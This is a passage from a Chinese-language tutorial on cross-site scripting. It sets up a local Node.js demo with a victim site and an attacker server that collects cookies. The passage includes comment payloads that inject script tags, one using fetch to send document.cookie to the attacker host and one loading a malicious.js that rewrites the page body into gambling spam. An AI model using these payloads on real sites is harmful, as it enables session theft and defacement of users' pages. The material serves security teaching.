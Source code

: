 ```js
    res.end();
  },
  "GET /cookies": (req, res) => {
    console.log(req.query);
    res.end();
  },
  "GET /malicious.js": (req, res) => {
    const script = `document.body.innerHTML = '美女荷棺在线發牌<img width=200 src="http://img.zlib.cn/beauty/1.jpg" />'`;
    res.end(script);
  },
};

// 获取 req.body
function getBody(req) {
  return new Promise((resolve, reject) => {
    const arr = [];
    req
      .on("data", (data) => arr.push(data))
      .on("end", () =>
        resolve(decodeURIComponent(Buffer.concat(arr).toString()))
      )
      .on("error", reject);
  });
}

function onRequest(req, res) {
  const { url, method } = req;
  const { query, pathname } = URL.parse(url, true); // 解析 url
  Object.assign(req, { query, path: pathname }); // 并把 query 和 pathname 参数扩展到 req 对象
  const route = routes[[method, pathname].join(" ")]; // 获取路由处理函数（策略模式）
  if (route) return route(req, res);
  res.statusCode = 404;
  res.end("Not Found");
}

http.createServer(onRequest).listen(3000); // 被攻击的网站
http.createServer(onRequest).listen(4000); // 攻击者收集cookie的服务器
```

运行上面的代码，然后打开网站 http://localhost:3000/articles/1，发表一则评论：

```js
文章写的真棒！<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，不信的话你输入下面的评论试试（内含福利）：

```js
文章写的真棒！<script src="http://localhost:4000/malicious.js"></script>
```

在这个恶意脚本 malicious.js 里面，直接改掉了 body，想想看，所有访问你的网站的用户，看到的其实是另外一番景象，太吓人了。
